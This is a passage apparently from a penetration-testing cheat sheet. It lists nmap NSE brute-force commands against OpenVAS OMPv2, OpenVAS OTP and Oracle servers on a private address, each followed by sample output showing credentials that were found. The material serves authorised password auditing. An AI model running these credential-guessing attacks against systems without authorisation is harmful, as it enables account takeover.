 



### OMPv2 - Brute-Force                              
_Performs Brute-Force password auditing against the OpenVAS manager using OMPv2_
     
     root@hostname: ~/ # nmap -p 9390 --script omp2-brute 192.168.1.12

     |PORT     STATE SERVICE REASON
     |9390/tcp open  openvas syn-ack
     | omp2-brute:
     |   Accounts
     |_    admin:secret => Valid credentials



### OpenVAS-OTP - Brute-Force                         
_Performs Brute-Force password auditing against a OpenVAS vulnerability scanner daemon using the OTP 1_0 protocol_
     
     root@hostname: ~/ # nmap -sV --script=openvas-otp-brute 192.168.1.12

PORT     STATE SERVICE    REASON  VERSION
     |9391/tcp open  ssl/openvas syn-ack
     | openvas-otp-brute:
     |   Accounts
     |     openvas:openvas - Valid credentials
     |   Statistics
     '-.>   Performed 4 guesses in 4 seconds, average tps: 1

### Oracle - Brute-Force                             
_Performs Brute-Force password auditing against Oracle servers_
     
     root@hostname: ~/ # nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=ORCL 192.168.1.12

     |PORT     STATE  SERVICE REASON
     |1521/tcp open  oracle  syn-ack
     | oracle-brute:
     |   Accounts
     |     system:powell => Account locked
     |     haxxor:haxxor => Valid credentials
     |   Statistics
     |_    Perfomed 157 guesses in 8 seconds, average tps: 19
